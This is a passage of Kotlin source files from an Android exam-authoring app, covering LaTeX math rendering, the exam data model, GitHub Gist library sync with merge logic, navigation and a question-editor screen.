                val endIdx = s.indexOf(endTag, m.range.first + m.value.length)
                if (endIdx < 0) { searchFrom = m.range.first + m.value.length; continue }
                val stop = endIdx + endTag.length
                out.append(s, cursor, m.range.first).append("$$").append(s.substring(m.range.first, stop)).append("$$")
                cursor = stop
                searchFrom = stop
            }
            out.append(s, cursor, s.length)
            out.toString()
        }

    private val BLOCK_SPAN = Regex("""\$\$[^$]*\$\$""")

    // Chay 1 buoc merge/absorb CHI ngoai cac block $$...$$.
    private fun outsideBlocks(s: String, fn: (String) -> String): String {
        val sb = StringBuilder()
        var last = 0
        for (m in BLOCK_SPAN.findAll(s)) {
            sb.append(fn(s.substring(last, m.range.first)))
            sb.append(m.value)
            last = m.range.last + 1
        }
        sb.append(fn(s.substring(last)))
        return sb.toString()
    }

    private fun onePass(text: String): String {
        var s = wrapBlockEnvironments(text)
        s = splitProtected(s).joinToString("") { p ->
            if (p.math) p.value
            else wrapUnicodeRadicals(wrapSqrtCalls(wrapLatexCommands(p.value)))
        }
        s = outsideBlocks(s, ::absorbLeadingCoefficient)
        s = outsideBlocks(s, ::absorbHuggingParens)
        s = outsideBlocks(s, ::mergeFractions)
        s = outsideBlocks(s, ::mergeAdjacentSpans)
        s = outsideBlocks(s, ::absorbTrailingOperand)
        return s
    }

    // Hard rule 8: dau "$" LE (khong ghep cap) khong duoc lam hong buoc sau.
    private val SENTINEL = "\uF8FF"
    private val DIGIT_DOLLAR = Regex("""(?<=\d)\$|\$(?=\d)""")
    private fun dollarCount(s: String) = s.count { it == '$' }

    private class Guarded(val text: String, val hadSentinel: Boolean)

    private fun guardLoneDollars(text: String): Guarded {
        if (dollarCount(text) % 2 == 0) return Guarded(text, false)
        var out = DIGIT_DOLLAR.replace(text, SENTINEL)
        if (dollarCount(out) % 2 == 1) {
            val last = out.lastIndexOf('$')
            out = out.substring(0, last) + SENTINEL + out.substring(last + 1)
        }
        return Guarded(out, true)
    }

    /** Boc moi cau truc toan 2 chieu ngoai $...$ thanh $...$ LaTeX. Idempotent. */
    fun promote(text: String?): String {
        if (text.isNullOrEmpty()) return text ?: ""
        val guarded = guardLoneDollars(text)
        var result = guarded.text
        for (i in 0 until 6) {
            val next = onePass(result)
            if (next == result) break
            result = next
        }
        return if (guarded.hadSentinel) result.replace(SENTINEL, "$") else result
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/math/MathText.kt

```kotlin
package com.exambuilder.android.math

import android.graphics.drawable.Drawable
import androidx.compose.foundation.Canvas
import androidx.compose.foundation.horizontalScroll
import androidx.compose.foundation.layout.Box
import androidx.compose.foundation.layout.Column
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.foundation.layout.fillMaxWidth
import androidx.compose.foundation.layout.padding
import androidx.compose.foundation.layout.size
import androidx.compose.foundation.rememberScrollState
import androidx.compose.foundation.text.InlineTextContent
import androidx.compose.foundation.text.appendInlineContent
import androidx.compose.material3.LocalContentColor
import androidx.compose.material3.LocalTextStyle
import androidx.compose.material3.Text
import androidx.compose.runtime.Composable
import androidx.compose.runtime.remember
import androidx.compose.ui.Modifier
import androidx.compose.ui.graphics.Color
import androidx.compose.ui.graphics.drawscope.DrawScope
import androidx.compose.ui.graphics.drawscope.drawIntoCanvas
import androidx.compose.ui.graphics.nativeCanvas
import androidx.compose.ui.graphics.takeOrElse
import androidx.compose.ui.graphics.toArgb
import androidx.compose.ui.platform.LocalDensity
import androidx.compose.ui.text.AnnotatedString
import androidx.compose.ui.text.Placeholder
import androidx.compose.ui.text.PlaceholderVerticalAlign
import androidx.compose.ui.text.SpanStyle
import androidx.compose.ui.text.TextStyle
import androidx.compose.ui.text.buildAnnotatedString
import androidx.compose.ui.text.font.FontWeight
import androidx.compose.ui.text.style.BaselineShift
import androidx.compose.ui.text.style.TextOverflow
import androidx.compose.ui.text.withStyle
import androidx.compose.ui.unit.dp
import androidx.compose.ui.unit.em
import androidx.compose.ui.unit.isSpecified
import androidx.compose.ui.unit.sp

/**
 * Renders a mix of Vietnamese prose and LaTeX math.
 *
 *  - plain text runs -> Compose [Text] with the system font. `x^2`, `sqrt(16)`,
 *    `>=`, `\frac`, Greek letters … typed without `$` are still upgraded to
 *    Unicode by [MathConvert].
 *  - `$…$` / `$$…$$` / bare `\begin{…}` -> JLaTeXMath: real fraction bars,
 *    radicals with a vinculum, `\begin{cases}` systems, matrices, integrals…
 *    Inline formulas are embedded in the text flow via [InlineTextContent];
 *    block formulas get their own horizontally-scrollable row.
 */
@Composable
fun MathText(
    text: String,
    modifier: Modifier = Modifier,
    style: TextStyle = LocalTextStyle.current,
    color: Color = Color.Unspecified,
    fontWeight: FontWeight? = null,
    maxLines: Int = Int.MAX_VALUE,
    overflow: TextOverflow = TextOverflow.Clip,
) {
    val nodes = remember(text) { parseMathNodes(text) }

    // Fast path: no formulas -> plain Unicode text (keeps ^ / _ scripts).
    if (nodes.none { it is MathNode.Formula }) {
        Text(
            text = remember(text) { buildMathAnnotatedString(text) },
            modifier = modifier,
            style = style,
            color = color,
            fontWeight = fontWeight,
            maxLines = maxLines,
            overflow = overflow,
        )
        return
    }

    val resolvedColor = color
        .takeOrElse { style.color }
        .takeOrElse { LocalContentColor.current }

    val groups = remember(nodes) { groupMathNodes(nodes) }
    if (groups.size == 1 && groups[0] is MathGroup.Inline) {
        InlineMathText(
            (groups[0] as MathGroup.Inline).nodes,
            modifier, style, resolvedColor, fontWeight, maxLines, overflow
        )
        return
    }

    Column(modifier) {
        groups.forEach { group ->
            when (group) {
                is MathGroup.Block -> BlockFormula(group.latex, style, resolvedColor)
                is MathGroup.Inline -> InlineMathText(
                    group.nodes, Modifier.fillMaxWidth(), style, resolvedColor, fontWeight, maxLines, overflow
                )
            }
        }
    }
}

private sealed interface Piece {
    data class Prose(val text: AnnotatedString) : Piece
    data class Math(val drawable: Drawable, val latex: String) : Piece
}

@Composable
private fun InlineMathText(
    nodes: List<MathNode>,
    modifier: Modifier,
    style: TextStyle,
    color: Color,
    fontWeight: FontWeight?,
    maxLines: Int,
    overflow: TextOverflow,
) {
    val density = LocalDensity.current
    val colorArgb = color.toArgb()
    val fontSizePx = with(density) {
        (if (style.fontSize.isSpecified) style.fontSize else 16.sp).toPx()
    }

    val pieces = remember(nodes, fontSizePx, colorArgb) {
        nodes.map { node ->
            when (node) {
                is MathNode.Text -> Piece.Prose(buildMathAnnotatedString(node.text))
                is MathNode.Formula -> {
                    val d = LatexImage.drawable(node.latex, fontSizePx, colorArgb)
                    if (d != null) Piece.Math(d, node.latex) else Piece.Prose(buildMathAnnotatedString(node.latex))
                }
            }
        }
    }

    val annotated = remember(pieces) {
        buildAnnotatedString {
            pieces.forEachIndexed { i, piece ->
                when (piece) {
                    is Piece.Prose -> append(piece.text)
                    is Piece.Math -> appendInlineContent("math_$i", piece.latex)
                }
            }
        }
    }

    val inlineContent = buildMap {
        pieces.forEachIndexed { i, piece ->
            if (piece is Piece.Math) {
                val w = with(density) { piece.drawable.intrinsicWidth.toFloat().toSp() }
                val h = with(density) { piece.drawable.intrinsicHeight.toFloat().toSp() }
                put(
                    "math_$i",
                    InlineTextContent(Placeholder(w, h, PlaceholderVerticalAlign.TextCenter)) {
                        DrawableCanvas(piece.drawable)
                    }
                )
            }
        }
    }

    Text(
        text = annotated,
        modifier = modifier,
        style = style,
        color = color,
        fontWeight = fontWeight,
        maxLines = maxLines,
        overflow = overflow,
        inlineContent = inlineContent,
    )
}

@Composable
private fun BlockFormula(latex: String, style: TextStyle, color: Color) {
    val density = LocalDensity.current
    val colorArgb = color.toArgb()
    val fontSizePx = with(density) {
        (if (style.fontSize.isSpecified) style.fontSize else 16.sp).toPx()
    }
    val drawable = remember(latex, fontSizePx, colorArgb) {
        LatexImage.drawable(latex, fontSizePx, colorArgb)
    }
    if (drawable == null) {
        Text(buildMathAnnotatedString(latex), style = style, color = color)
        return
    }
    val wDp = with(density) { drawable.intrinsicWidth.toDp() }
    val hDp = with(density) { drawable.intrinsicHeight.toDp() }
    Box(
        Modifier
            .fillMaxWidth()
            .horizontalScroll(rememberScrollState())
            .padding(vertical = 4.dp)
    ) {
        Canvas(Modifier.size(wDp, hDp)) { drawDrawable(drawable) }
    }
}

@Composable
private fun DrawableCanvas(drawable: Drawable) {
    Canvas(Modifier.fillMaxSize()) { drawDrawable(drawable) }
}

private fun DrawScope.drawDrawable(drawable: Drawable) {
    drawIntoCanvas { canvas ->
        drawable.setBounds(0, 0, size.width.toInt(), size.height.toInt())
        drawable.draw(canvas.nativeCanvas)
    }
}

/** Plain-text Unicode fallback: converts LaTeX / ASCII to Unicode, lifts ^ / _ into scripts. */
fun buildMathAnnotatedString(text: String?): AnnotatedString = buildAnnotatedString {
    for (span in MathConvert.segments(text)) {
        when (span.script) {
            MathConvert.Script.NONE -> append(span.text)
            MathConvert.Script.SUPER ->
                withStyle(SpanStyle(baselineShift = BaselineShift.Superscript, fontSize = 0.72.em)) { append(span.text) }
            MathConvert.Script.SUB ->
                withStyle(SpanStyle(baselineShift = BaselineShift.Subscript, fontSize = 0.72.em)) { append(span.text) }
        }
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/model/Exam.kt

```kotlin
package com.exambuilder.android.model

import java.util.UUID
import kotlinx.serialization.json.JsonObject

/**
 * Mirrors the exam JSON schema produced by the web app's parsers
 * (backend/parser/TextPromptParser.js, FileUploadParser.js) so exams
 * exported from either client stay interchangeable.
 */
enum class QuestionType { MCQ, TRUE_FALSE, FILL_BLANK, ESSAY }

enum class DifficultyLevel(val label: String) {
    NB("Nhận biết"),
    TH("Thông hiểu"),
    VD("Vận dụng"),
    VDC("Vận dụng cao")
}

enum class BlockType { MULTIPLE_CHOICE, ESSAY }

data class QuestionOption(
    val id: String = UUID.randomUUID().toString(),
    val optionKey: String,
    val optionText: String,
    val isCorrect: Boolean
)

data class Question(
    val id: String = UUID.randomUUID().toString(),
    val questionType: QuestionType,
    val content: String,
    val difficultyLevel: DifficultyLevel,
    val correctAnswer: String? = null,
    val explanation: String? = null,
    val options: List<QuestionOption> = emptyList(),
    val draftLinesCount: Int = 0,
    val templateSlotId: String? = null,
    val points: String? = null
)

data class QuestionBlock(
    val id: String = UUID.randomUUID().toString(),
    val blockType: BlockType,
    val blockTitle: String,
    val questions: List<Question> = emptyList()
)

data class Exam(
    val id: String = UUID.randomUUID().toString(),
    val title: String = "",
    val subject: String = "",
    val durationMinutes: Int? = null,
    val schoolHeader: String = "",
    val blocks: List<QuestionBlock> = emptyList(),
    // Opaque render-critical snapshot from the web; preserve when opening and
    // saving even when this Android release cannot edit every layout property.
    val templateBinding: JsonObject? = null
)

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/sync/GistClient.kt

```kotlin
package com.exambuilder.android.sync

import com.exambuilder.android.data.dto.LIBRARY_FILENAME
import kotlinx.coroutines.Dispatchers
import kotlinx.coroutines.withContext
import org.json.JSONObject
import java.io.IOException
import java.net.HttpURLConnection
import java.net.URL

data class GistRef(val id: String, val htmlUrl: String)

/**
 * Cung 3 thao tac voi backend/sync/gistClient.js, chay bang HttpURLConnection
 * (khong them thu vien mang). Gist dat public=false (secret) nhung KHONG ma hoa.
 */
class GistClient {

    private val api = "https://api.github.com"
    private val description = "ExamBuilder - thu vien de kiem tra (dong bo PC <-> Android)"

    /** Noi dung file thu vien (chuoi JSON) hoac null neu gist chua co file do. */
    suspend fun getLibrary(token: String, gistId: String): String? = withContext(Dispatchers.IO) {
        require(token.isNotBlank()) { "Chưa cấu hình GitHub token." }
        require(gistId.isNotBlank()) { "Chưa cấu hình Gist ID." }

        val (code, body) = httpRequest("GET", "$api/gists/$gistId", token, null)
        if (code !in 200..299) throw errorFor(code, body)

        val files = JSONObject(body).optJSONObject("files") ?: return@withContext null
        val file = files.optJSONObject(LIBRARY_FILENAME) ?: return@withContext null
        if (file.optBoolean("truncated", false)) {
            val rawUrl = file.optString("raw_url", "")
            if (rawUrl.isNotBlank()) {
                val (rc, rb) = httpRequest("GET", rawUrl, token, null)
                if (rc !in 200..299) throw errorFor(rc, rb)
                return@withContext rb
            }
        }
        file.optString("content").ifBlank { null }
    }

    suspend fun createGist(token: String, content: String): GistRef = withContext(Dispatchers.IO) {
        require(token.isNotBlank()) { "Chưa cấu hình GitHub token." }
        val payload = JSONObject()
            .put("description", description)
            .put("public", false)
            .put("files", JSONObject().put(LIBRARY_FILENAME, JSONObject().put("content", content)))
            .toString()
        val (code, body) = httpRequest("POST", "$api/gists", token, payload)
        if (code !in 200..299) throw errorFor(code, body)
        val obj = JSONObject(body)
        GistRef(id = obj.getString("id"), htmlUrl = obj.optString("html_url"))
    }

    suspend fun updateGist(token: String, gistId: String, content: String): GistRef = withContext(Dispatchers.IO) {
        require(token.isNotBlank()) { "Chưa cấu hình GitHub token." }
        require(gistId.isNotBlank()) { "Chưa cấu hình Gist ID." }
        val payload = JSONObject()
            .put("files", JSONObject().put(LIBRARY_FILENAME, JSONObject().put("content", content)))
            .toString()
        val (code, body) = httpRequest("PATCH", "$api/gists/$gistId", token, payload)
        if (code !in 200..299) throw errorFor(code, body)
        val obj = JSONObject(body)
        GistRef(id = obj.getString("id"), htmlUrl = obj.optString("html_url"))
    }

    private fun httpRequest(method: String, url: String, token: String, body: String?): Pair<Int, String> {
        val conn = (URL(url).openConnection() as HttpURLConnection).apply {
            connectTimeout = 15_000
            readTimeout = 30_000
            setRequestProperty("Authorization", "Bearer $token")
            setRequestProperty("Accept", "application/vnd.github+json")
            setRequestProperty("X-GitHub-Api-Version", "2022-11-28")
            setRequestProperty("User-Agent", "ExamBuilder-Android")
            // HttpURLConnection tren Android (OkHttp) ho tro PATCH truc tiep; neu
            // ban runtime nao do tu choi thi fallback POST + method override.
            try {
                requestMethod = method
            } catch (e: java.net.ProtocolException) {
                if (method == "PATCH") {
                    requestMethod = "POST"
                    setRequestProperty("X-HTTP-Method-Override", "PATCH")
                } else throw e
            }
            if (body != null) {
                doOutput = true
                setRequestProperty("Content-Type", "application/json")
            }
        }
        try {
            if (body != null) conn.outputStream.use { it.write(body.toByteArray(Charsets.UTF_8)) }
            val code = conn.responseCode
            val stream = if (code in 200..299) conn.inputStream else (conn.errorStream ?: conn.inputStream)
            val text = stream.bufferedReader(Charsets.UTF_8).use { it.readText() }
            return code to text
        } catch (e: IOException) {
            throw IOException("Lỗi kết nối GitHub: ${e.message}", e)
        } finally {
            conn.disconnect()
        }
    }

    private fun errorFor(code: Int, body: String): Exception {
        val detail = runCatching { JSONObject(body).optString("message") }.getOrDefault("")
            .let { if (it.isNotBlank()) " - $it" else "" }
        val msg = when (code) {
            401 -> "GitHub từ chối token (HTTP 401$detail). Kiểm tra lại Personal Access Token."
            403 -> "GitHub chặn yêu cầu (HTTP 403$detail). Token thiếu quyền \"gist\" hoặc đang bị giới hạn tần suất."
            404 -> "Không tìm thấy Gist (HTTP 404$detail). Kiểm tra lại Gist ID."
            429 -> "GitHub giới hạn tần suất (HTTP 429$detail). Thử lại sau ít phút."
            else -> "Lỗi GitHub API (HTTP $code$detail)."
        }
        return IOException(msg)
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/sync/LibraryMerge.kt

```kotlin
package com.exambuilder.android.sync

import com.exambuilder.android.data.dto.LIBRARY_SCHEMA
import com.exambuilder.android.data.dto.LibraryFile
import com.exambuilder.android.data.dto.LibraryJson
import com.exambuilder.android.data.dto.SavedExamDto
import com.exambuilder.android.data.dto.ThemeDto
import java.time.Instant

/**
 * Cung logic voi backend/sync/library.js. Giu 2 ban song song dong bo khi sua.
 */
object LibraryMerge {

    fun nowIso(): String = Instant.now().toString()

    fun emptyLibrary(): LibraryFile = LibraryFile(schema = LIBRARY_SCHEMA, updatedAt = nowIso(), exams = emptyList())

    /** Chuoi JSON tho -> LibraryFile. JSON hong / cau truc sai -> thu vien rong (khong nem). */
    fun parse(raw: String?): LibraryFile {
        if (raw.isNullOrBlank()) return emptyLibrary()
        return runCatching {
            val lib = LibraryJson.decodeFromString(LibraryFile.serializer(), raw)
            lib.copy(exams = lib.exams.filter { it.examId.isNotBlank() })
        }.getOrElse { emptyLibrary() }
    }

    fun stringify(library: LibraryFile): String =
        LibraryJson.encodeToString(LibraryFile.serializer(), library)

    /**
     * Hop nhat theo exam_id, "primary thang" tuyet doi khi trung id; union
     * toan bo id o ca 2 ben.
     *   - Pull : merge(cloud, local)  -> ghi ket qua vao may
     *   - Push : merge(local, cloud)  -> ghi ket qua len Gist
     */
    fun merge(primary: LibraryFile, secondary: LibraryFile): LibraryFile {
        val byId = LinkedHashMap<String, SavedExamDto>()
        for (e in secondary.exams) byId[e.examId] = e
        for (e in primary.exams) byId[e.examId] = e
        val exams = byId.values.sortedByDescending { it.updatedAt ?: "" }
        return LibraryFile(
            schema = LIBRARY_SCHEMA,
            updatedAt = nowIso(),
            theme = pickNewerTheme(primary.theme, secondary.theme),
            exams = exams
        )
    }

    // --- Chu de mau: "lan doi gan nhat thang" (giu giong backend/sync/library.js) ---
    private val THEME_ID_RE = Regex("^[a-z][a-z0-9-]{0,39}$")

    private fun sanitizeTheme(t: ThemeDto?): ThemeDto? {
        val id = t?.id?.trim().orEmpty()
        if (!THEME_ID_RE.matches(id)) return null
        return ThemeDto(id = id, updatedAt = t?.updatedAt?.takeIf { it.isNotBlank() })
    }

    private fun themeTime(t: ThemeDto?): Long {
        val iso = t?.updatedAt ?: return 0L
        return runCatching { Instant.parse(iso).toEpochMilli() }.getOrDefault(0L)
    }

    /** Bang moc thoi gian -> giu [primary] de ket qua tat dinh. */
    fun pickNewerTheme(primary: ThemeDto?, secondary: ThemeDto?): ThemeDto? {
        val p = sanitizeTheme(primary)
        val s = sanitizeTheme(secondary)
        if (p == null) return s
        if (s == null) return p
        return if (themeTime(s) > themeTime(p)) s else p
    }

    /** Bo tombstone cu hon [days] ngay (mac dinh 90). */
    fun purgeOldTombstones(library: LibraryFile, days: Long = 90): LibraryFile {
        val cutoff = Instant.now().minusSeconds(days * 86_400)
        val kept = library.exams.filter { e ->
            val del = e.deletedAt ?: return@filter true
            val t = runCatching { Instant.parse(del) }.getOrNull() ?: return@filter true
            !t.isBefore(cutoff)
        }
        return library.copy(schema = LIBRARY_SCHEMA, updatedAt = nowIso(), exams = kept)
    }

    fun summarize(library: LibraryFile): Triple<Int, Int, Int> {
        val total = library.exams.size
        val active = library.exams.count { !it.isDeleted }
        return Triple(total, active, total - active)
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/sync/SyncManager.kt

```kotlin
package com.exambuilder.android.sync

import com.exambuilder.android.data.AppSettingsStore
import com.exambuilder.android.data.ExamArchiveRepository
import com.exambuilder.android.data.SyncSettingsStore
import com.exambuilder.android.data.dto.LibraryFile
import com.exambuilder.android.data.dto.ThemeDto
import kotlinx.coroutines.flow.first

sealed interface SyncResult {
    data class Ok(
        val direction: String,     // "push" | "pull"
        val active: Int,
        val tombstones: Int,
        val gistId: String
    ) : SyncResult

    data class Error(val message: String) : SyncResult
}

/**
 * Ghep repo + cai dat + client. Cung ngu nghia voi backend/routes/syncRoutes.js:
 *  - push: merge(local, cloud) -> ghi Gist + ghi nguoc ve may. Tu tao Gist neu chua co id.
 *  - pull: merge(cloud, local) -> ghi ve may.
 */
class SyncManager(
    private val repo: ExamArchiveRepository,
    private val settingsStore: SyncSettingsStore,
    private val appSettings: AppSettingsStore,
    private val client: GistClient = GistClient()
) {

    suspend fun push(): SyncResult = runCatching {
        val s = settingsStore.settings.first()
        if (!s.hasToken) return SyncResult.Error("Chưa cấu hình GitHub token.")

        val app = appSettings.settings.first()
        val local = LibraryMerge.purgeOldTombstones(repo.asLibrary())
            .copy(theme = ThemeDto(app.themeId, app.themeUpdatedAt.ifBlank { null }))

        var gistId = s.gistId
        val cloud: LibraryFile = if (gistId.isNotBlank()) {
            LibraryMerge.parse(client.getLibrary(s.githubToken, gistId))
        } else {
            LibraryMerge.emptyLibrary()
        }

        val merged = LibraryMerge.merge(primary = local, secondary = cloud)
        val content = LibraryMerge.stringify(merged)

        gistId = if (gistId.isNotBlank()) {
            client.updateGist(s.githubToken, gistId, content).id
        } else {
            client.createGist(s.githubToken, content).id.also { settingsStore.setGistId(it) }
        }

        repo.replaceAll(merged.exams)
        applyMergedTheme(merged, app.themeId)
        settingsStore.setLastSyncedAt(LibraryMerge.nowIso())

        val (_, active, tombstones) = LibraryMerge.summarize(merged)
        SyncResult.Ok("push", active, tombstones, gistId)
    }.getOrElse { SyncResult.Error(it.message ?: "Lỗi đẩy lên Gist") }

    suspend fun pull(): SyncResult = runCatching {
        val s = settingsStore.settings.first()
        if (!s.hasToken) return SyncResult.Error("Chưa cấu hình GitHub token.")
        if (s.gistId.isBlank()) return SyncResult.Error("Chưa có Gist ID. Hãy \"Đẩy lên\" từ một máy để tạo Gist trước.")

        val app = appSettings.settings.first()
        val cloud = LibraryMerge.parse(client.getLibrary(s.githubToken, s.gistId))
        val local = repo.asLibrary()
            .copy(theme = ThemeDto(app.themeId, app.themeUpdatedAt.ifBlank { null }))

        val merged = LibraryMerge.merge(primary = cloud, secondary = local)
        repo.replaceAll(merged.exams)
        applyMergedTheme(merged, app.themeId)
        settingsStore.setLastSyncedAt(LibraryMerge.nowIso())

        val (_, active, tombstones) = LibraryMerge.summarize(merged)
        SyncResult.Ok("pull", active, tombstones, s.gistId)
    }.getOrElse { SyncResult.Error(it.message ?: "Lỗi kéo về từ Gist") }

    /** Nếu bản theme thắng khác theme hiện tại của máy -> áp vào DataStore. */
    private suspend fun applyMergedTheme(merged: LibraryFile, currentThemeId: String) {
        val winner = merged.theme ?: return
        if (winner.id.isNotBlank() && winner.id != currentThemeId) {
            appSettings.applySyncedTheme(winner.id, winner.updatedAt)
        }
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/navigation/ExamBuilderNavHost.kt

```kotlin
package com.exambuilder.android.ui.navigation

import androidx.compose.foundation.layout.padding
import androidx.compose.material.icons.Icons
import androidx.compose.material.icons.filled.Edit
import androidx.compose.material.icons.filled.Inventory2
import androidx.compose.material.icons.filled.IosShare
import androidx.compose.material.icons.filled.Settings
import androidx.compose.material.icons.filled.Visibility
import androidx.compose.material3.Icon
import androidx.compose.material3.NavigationBar
import androidx.compose.material3.NavigationBarItem
import androidx.compose.material3.Scaffold
import androidx.compose.material3.Text
import androidx.compose.runtime.Composable
import androidx.compose.runtime.LaunchedEffect
import androidx.compose.runtime.getValue
import androidx.compose.runtime.snapshotFlow
import androidx.compose.ui.Modifier
import androidx.navigation.NavDestination.Companion.hierarchy
import androidx.navigation.NavGraph.Companion.findStartDestination
import androidx.navigation.compose.NavHost
import androidx.navigation.compose.currentBackStackEntryAsState
import androidx.navigation.compose.rememberNavController
import androidx.navigation.compose.composable
import com.exambuilder.android.data.AppSettingsStore
import com.exambuilder.android.ui.screens.ExamBuilderScreen
import com.exambuilder.android.ui.screens.ExportScreen
import com.exambuilder.android.ui.screens.LibraryScreen
import com.exambuilder.android.ui.screens.PreviewScreen
import com.exambuilder.android.ui.screens.SettingsScreen
import com.exambuilder.android.viewmodel.ExamViewModel
import com.exambuilder.android.viewmodel.LibraryViewModel
import kotlinx.coroutines.FlowPreview
import kotlinx.coroutines.flow.debounce

private enum class Destination(val route: String, val label: String) {
    Builder("builder", "Soạn đề"),
    Preview("preview", "Xem trước"),
    Export("export", "Xuất file"),
    Library("library", "Kho đề"),
    Settings("settings", "Cài đặt")
}

@OptIn(FlowPreview::class)
@Composable
fun ExamBuilderNavHost(
    viewModel: ExamViewModel,
    libraryViewModel: LibraryViewModel,
    appSettingsStore: AppSettingsStore
) {
    val navController = rememberNavController()

    // Tu dong luu moi de vao kho: theo doi state cua trinh soan, debounce 1.2s.
    LaunchedEffect(Unit) {
        snapshotFlow { viewModel.exam }
            .debounce(1_200)
            .collect { exam ->
                libraryViewModel.autoSave(exam, viewModel.currentExamId) { newId ->
                    viewModel.currentExamId = newId
                }
            }
    }

    Scaffold(
        bottomBar = {
            NavigationBar {
                val navBackStackEntry by navController.currentBackStackEntryAsState()
                val currentDestination = navBackStackEntry?.destination

                Destination.entries.forEach { dest ->
                    val icon = when (dest) {
                        Destination.Builder -> Icons.Default.Edit
                        Destination.Preview -> Icons.Default.Visibility
                        Destination.Export -> Icons.Default.IosShare
                        Destination.Library -> Icons.Default.Inventory2
                        Destination.Settings -> Icons.Default.Settings
                    }
                    NavigationBarItem(
                        icon = { Icon(icon, contentDescription = dest.label) },
                        label = { Text(dest.label) },
                        selected = currentDestination?.hierarchy?.any { it.route == dest.route } == true,
                        onClick = {
                            navController.navigate(dest.route) {
                                popUpTo(navController.graph.findStartDestination().id) { saveState = true }
                                launchSingleTop = true
                                restoreState = true
                            }
                        }
                    )
                }
            }
        }
    ) { padding ->
        NavHost(
            navController = navController,
            startDestination = Destination.Builder.route,
            modifier = Modifier.padding(padding)
        ) {
            composable(Destination.Builder.route) { ExamBuilderScreen(viewModel) }
            composable(Destination.Preview.route) { PreviewScreen(viewModel) }
            composable(Destination.Export.route) { ExportScreen(viewModel) }
            composable(Destination.Library.route) {
                LibraryScreen(
                    libraryViewModel = libraryViewModel,
                    onOpenExam = { archiveId ->
                        libraryViewModel.get(archiveId)?.let { exam ->
                            viewModel.loadExam(exam, archiveId)
                            navController.navigate(Destination.Preview.route) {
                                popUpTo(navController.graph.findStartDestination().id) { saveState = true }
                                launchSingleTop = true
                            }
                        }
                    },
                    onExamDeleted = { deletedId ->
                        if (viewModel.currentExamId == deletedId) viewModel.currentExamId = null
                    }
                )
            }
            composable(Destination.Settings.route) { SettingsScreen(appSettingsStore) }
        }
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/screens/ExamBuilderScreen.kt

```kotlin
package com.exambuilder.android.ui.screens

import androidx.compose.foundation.BorderStroke
import androidx.compose.foundation.layout.Arrangement
import androidx.compose.foundation.layout.Box
import androidx.compose.foundation.layout.BoxWithConstraints
import androidx.compose.foundation.layout.Column
import androidx.compose.foundation.layout.PaddingValues
import androidx.compose.foundation.layout.Row
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.foundation.layout.fillMaxWidth
import androidx.compose.foundation.layout.padding
import androidx.compose.foundation.layout.width
import androidx.compose.foundation.lazy.LazyColumn
import androidx.compose.foundation.lazy.items
import androidx.compose.material.icons.Icons
import androidx.compose.material.icons.filled.Add
import androidx.compose.material.icons.filled.ArrowDownward
import androidx.compose.material.icons.filled.ArrowUpward
import androidx.compose.material.icons.filled.Delete
import androidx.compose.material.icons.filled.Edit
import androidx.compose.material3.AssistChip
import androidx.compose.material3.Button
import androidx.compose.material3.Card
import androidx.compose.material3.CardDefaults
import androidx.compose.material3.ExtendedFloatingActionButton
import androidx.compose.material3.Icon
import androidx.compose.material3.IconButton
import androidx.compose.material3.MaterialTheme
import androidx.compose.material3.OutlinedTextField
import androidx.compose.material3.Scaffold
import androidx.compose.material3.Text
import androidx.compose.runtime.Composable
import androidx.compose.runtime.getValue
import androidx.compose.runtime.mutableStateOf
import androidx.compose.runtime.remember
import androidx.compose.runtime.setValue
import androidx.compose.ui.Alignment
import androidx.compose.ui.Modifier
import androidx.compose.ui.text.font.FontWeight
import androidx.compose.ui.text.input.KeyboardType
import androidx.compose.ui.unit.dp
import androidx.compose.foundation.text.KeyboardOptions
import com.exambuilder.android.export.vietnameseLabel
import com.exambuilder.android.math.MathText
import com.exambuilder.android.model.Question
import com.exambuilder.android.viewmodel.ExamViewModel

/**
 * Primary authoring screen: exam metadata + question list. Switches from a
 * single scrolling column (phone) to a two-pane list/detail layout once the
 * available width crosses the ~600dp tablet breakpoint. Adding or tapping a
 * question opens the full [QuestionEditorSheet].
 */
@Composable
fun ExamBuilderScreen(viewModel: ExamViewModel) {
    // null editorTarget  -> sheet closed.  editorTarget.question == null -> add.
    var editorTarget by remember { mutableStateOf<EditorTarget?>(null) }
    var selectedForDetail by remember { mutableStateOf<Question?>(null) }

    Scaffold(
        floatingActionButton = {
            ExtendedFloatingActionButton(onClick = { editorTarget = EditorTarget(null) }) {
                Icon(Icons.Default.Add, contentDescription = null)
                Text(" Thêm câu hỏi", modifier = Modifier.padding(start = 4.dp))
            }
        }
    ) { padding ->
        BoxWithConstraints(Modifier.fillMaxSize().padding(padding)) {
            val isWide = maxWidth > 600.dp
            if (isWide) {
                Row(Modifier.fillMaxSize()) {
                    Column(Modifier.width(340.dp)) {
                        QuestionListPane(
                            viewModel = viewModel,
                            header = true,
                            onOpen = { selectedForDetail = it },
                            onEdit = { editorTarget = EditorTarget(it) }
                        )
                    }
                    Box(Modifier.fillMaxSize().padding(16.dp)) {
                        selectedForDetail?.let { q ->
                            QuestionDetailCard(q, onEdit = { editorTarget = EditorTarget(q) })
                        } ?: Text(
                            "Chọn 1 câu hỏi để xem chi tiết",
                            color = MaterialTheme.colorScheme.onSurfaceVariant
                        )
                    }
                }
            } else {
                QuestionListPane(
                    viewModel = viewModel,
                    header = true,
                    onOpen = { editorTarget = EditorTarget(it) },
                    onEdit = { editorTarget = EditorTarget(it) }
                )
            }
        }
    }

    editorTarget?.let { target ->
        QuestionEditorSheet(
            initial = target.question,
            onDismiss = { editorTarget = null },
            onSave = { updated ->
                viewModel.upsertQuestion(target.question, updated)
                selectedForDetail = updated
                editorTarget = null
            }
        )
    }
}

private data class EditorTarget(val question: Question?)

@Composable
private fun QuestionListPane(
    viewModel: ExamViewModel,
    header: Boolean,
    onOpen: (Question) -> Unit,
    onEdit: (Question) -> Unit,
) {
    val exam = viewModel.exam
    LazyColumn(
        contentPadding = PaddingValues(16.dp),
        verticalArrangement = Arrangement.spacedBy(8.dp)
    ) {
        if (header) {
